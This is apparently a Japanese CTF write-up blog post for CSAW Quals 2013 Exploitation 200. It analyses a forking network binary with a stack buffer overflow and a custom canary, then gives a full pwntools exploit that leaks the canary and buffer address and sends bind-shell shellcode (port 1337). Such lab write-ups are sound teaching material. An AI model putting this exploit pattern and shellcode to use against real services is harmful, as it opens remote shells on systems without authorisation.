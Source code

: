 ```yaml
---
layout: post
redirect_from:
  - /blog/2016/01/13/csaw-quals-2013-exploit2/
date: 2016-01-13T01:21:13+09:00
tags: [ "ctf", "writeup", "pwn", "csaw-ctf", "shellcode", "port-bind", "buffer-overflow" ]
---
```


# CSAW Quals CTF 2013: Exploitation 200

## [Exploitation 200](https://github.com/ctfs/write-ups-2013/tree/master/csaw-quals-2013/exploitation/exploit2-200)

>   nc 128.238.66.212 31338  
>   [exploit2]()

与えられるバイナリは`0.0.0.0:31338`にsocketを開くので、これに接続する。
応答の先頭には変な文字が出力されている。

``` sh
$ ./exploit2 &
[2] 9327
$ nc localhost 31338 | xxd
Got a connection from 127.0.0.1 on port 34126
00000000: cc30 c6ff fbb0 4102 5765 6c63 6f6d 6520  .0....A.Welcome 
00000010: 746f 2043 5341 5720 4354 462e 2020 4578  to CSAW CTF.  Ex
00000020: 706c 6f69 7461 7469 6f6e 2032 2077 696c  ploitation 2 wil
00000030: 6c20 6265 2061 206c 6974 746c 6520 6861  l be a little ha
00000040: 7264 6572 2074 6869 7320 7965 6172 2e20  rder this year. 
00000050: 2049 6e73 6572 7420 796f 7572 2065 7870   Insert your exp

00000060: 6c6f 6974 2068 6572 653a 00              loit here:.
```

逆アセンブルして読むと以下が分かる。

-   中でforkしている
-   buffer overflowがある
-   canaryがいる (gccによるものでない、自前実装)
-   出力の先頭4byteはbufferへのpointer
-   次の4byteはcanaryの値

shellに繋がるportを開くshellcodeを投げ込めばよいようだ。

```
#!/usr/bin/env python2
from pwn import * # https://pypi.python.org/pypi/pwntools

context.log_level = 'debug'
p = remote('0.0.0.0', 31338)

buf = u32(p.recv(4))
canary = u32(p.recv(4))

# http://shell-storm.org/shellcode/files/shellcode-882.php
# Shell Bind TCP Shellcode Port 1337
shellcode = "\x6a\x66\x58\x6a\x01\x5b\x31\xf6\x56\x53\x6a\x02\x89\xe1\xcd\x80\x5f\x97\x93\xb0\x66\x56\x66\x68\x05\x39\x66\x53\x89\xe1\x6a\x10\x51\x57\x89\xe1\xcd\x80\xb0\x66\xb3\x04\x56\x57\x89\xe1\xcd\x80\xb0\x66\x43\x56\x56\x57\x89\xe1\xcd\x80\x59\x59\xb1\x02\x93\xb0\x3f\xcd\x80\x49\x79\xf9\xb0\x0b\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x41\x89\xca\xcd\x80"

payload = ''
payload += shellcode   # ebp - 0x80c
payload += 'A' * (0x800 - len(shellcode))
payload += p32(canary) # ebp - 0xc
payload += 'A' * 4     # ebp - 0x8, ebx
payload += 'A' * 4     # ebp - 0x4, edi
payload += 'A' * 4     # ebp, ebp
payload += p32(buf)    # ret
payload += 'A' * (0x1000 - len(payload))
p.send(payload)
```
